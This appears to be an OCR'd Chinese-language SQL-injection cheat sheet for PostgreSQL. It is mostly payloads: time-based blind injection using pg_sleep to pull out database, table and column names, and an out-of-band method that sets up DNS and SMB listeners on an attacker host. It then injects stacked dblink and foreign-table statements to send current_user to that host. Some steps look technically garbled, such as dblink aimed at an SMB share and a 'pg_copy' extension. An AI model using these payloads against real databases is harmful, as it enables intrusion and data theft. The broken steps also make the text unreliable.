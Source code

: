 #### **时间**

```postgresql
确定基于时间
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))

基于数据库转储时间
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1

基于表转储时间
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1

基于列转储时间
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1
```



#### **外带**

通过利用PostgreSQL的一些扩展模块，如`dblink`，`postgres_fdw`，`pg_copy`等，来创建DNS查询或读取SMB共享域名，从而将数据传输到攻击者的服务器。这种盲注的条件比较苛刻，需要能够堆叠语句，且当前用户必须有足够的权限。

- 首先，我们需要在我们的服务器上创建一个DNS服务器和一个SMB服务器，用于接收数据。我们可以使用`dnschef`和`impacket`等工具来实现。例如，我们可以在我们的服务器上运行以下命令：

```postgresql
dnschef --fakeip 192.168.1.100 --interface eth0
smbserver.py -smb2support share /tmp
```



这样，我们就在我们的服务器上创建了一个DNS服务器，用于解析任意域名为192.168.1.100，和一个SMB服务器，用于共享/tmp目录。

- 然后，我们需要在目标数据库上创建一个外部服务器，用于连接我们的服务器。我们可以使用`dblink`或`postgres_fdw`等模块来实现。例如，我们可以输入以下语句：

```postgresql
id=1; create extension dblink; select dblink_connect('myserver','host=192.168.1.100 port=445 user=guest password=guest dbname=share')
```



这样，我们就在目标数据库上创建了一个外部服务器，名为myserver，用于连接我们的服务器的SMB共享。

- 最后，我们需要在目标数据库上创建一个外部表，用于读取或写入我们的服务器的文件。我们可以使用`pg_copy`或`postgres_fdw`等模块来实现。例如，我们可以输入以下语句：

```postgresql
id=1; create extension pg_copy; create foreign table mytable (data text) server myserver options (filename 'data.txt', format 'text'); insert into mytable select current_user
```

